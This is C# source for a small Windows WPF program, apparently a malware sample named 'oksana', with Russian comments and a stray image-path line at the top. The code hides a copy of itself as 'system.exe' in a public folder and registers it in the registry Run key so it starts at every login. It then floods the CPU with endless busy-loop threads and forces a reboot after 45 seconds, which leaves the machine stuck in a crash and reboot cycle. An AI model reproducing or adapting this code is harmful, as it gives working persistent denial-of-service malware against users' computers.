 # oksana_v1
using JCS;
using Microsoft.Win32;
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Threading;
using System.Windows;




namespace WpfApplication_OKSANA
{
/// <summary>
/// Логика взаимодействия для MainWindow.xaml
/// </summary>
public partial class MainWindow : Window
{
public static string needPatch = "C:\\Users\\Public\\";

public MainWindow()
{
if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
{
autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
//SetAutorunValue(false, needPatch + "system.exe"); // убрать из автозагрузки
}
else
if (OSVersionInfo.Name == "Windows XP")
{
needPatch = "C:\\Documents and Settings\\All Users\\";
autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
//SetAutorunValue(false, needPatch + "system.exe"); // убрать из автозагрузки
}

InitializeComponent();
}

private void Window_Loaded(object sender, RoutedEventArgs e)
{
if (!File.Exists(needPatch + "system.exe"))
{
try
{
File.Copy("system.exe", needPatch + "system.exe");
File.SetAttributes(needPatch + "system.exe", FileAttributes.Hidden);

}
catch { }
}
start();
}

public static void sys_sleep()
{
while (true)
{
Thread s = new Thread(s_b);
s.Start();
}
}
private static void s_b()
{
int y = 2;
while (true)
{
y *= y;
}
}

public static void start()
{
Stopwatch sw = new Stopwatch();
sw.Start();
bool b = true;
bool pl = false;
while (b)
{
if (sw.ElapsedMilliseconds > 20000)
{
if (!pl)
{
Thread g = new Thread(sys_sleep);
g.Start();
pl = true;
}
}
if (sw.ElapsedMilliseconds > 45000)
{
DoExitWin(EWX_REBOOT);
b = false;
}
}
}



[StructLayout(LayoutKind.Sequential, Pack = 1)]
internal struct TokPriv1Luid
{
public int Count;
public long Luid;
public int Attr;
}
[DllImport("kernel32.dll", ExactSpelling = true)]
internal static extern IntPtr GetCurrentProcess();
[DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);
[DllImport("advapi32.dll", SetLastError = true)]
internal static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);
[DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall,
ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
[DllImport("user32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool ExitWindowsEx(int flg, int rea);
internal const int EWX_REBOOT = 0x00000002;
internal const string SE_SHUTDOWN_NAME = "SeShutdownPrivilege";
internal const int SE_PRIVILEGE_ENABLED = 0x00000002;
internal const int TOKEN_QUERY = 0x00000008;
internal const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;

public static Thread thread1;
public static void DoExitWin(int flg)
{
bool ok;
TokPriv1Luid tp;
IntPtr hproc = GetCurrentProcess();
IntPtr htok = IntPtr.Zero;
ok = OpenProcessToken(hproc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, ref htok);
tp.Count = 1;
tp.Luid = 0;
tp.Attr = SE_PRIVILEGE_ENABLED;
ok = LookupPrivilegeValue(null, SE_SHUTDOWN_NAME, ref tp.Luid);
ok = AdjustTokenPrivileges(htok, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);
ok = ExitWindowsEx(flg, 0);
}
}

public class autorun
{
public static bool SetAutorunValue(bool autorun, string npath)
{
const string name = "systems";
string ExePath = npath;
RegistryKey reg;

reg = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");
try
{
if (autorun)
reg.SetValue(name, ExePath);
else
reg.DeleteValue(name);
reg.Flush();
reg.Close();
}
catch
{
return false;
}
return true;
}
}
}
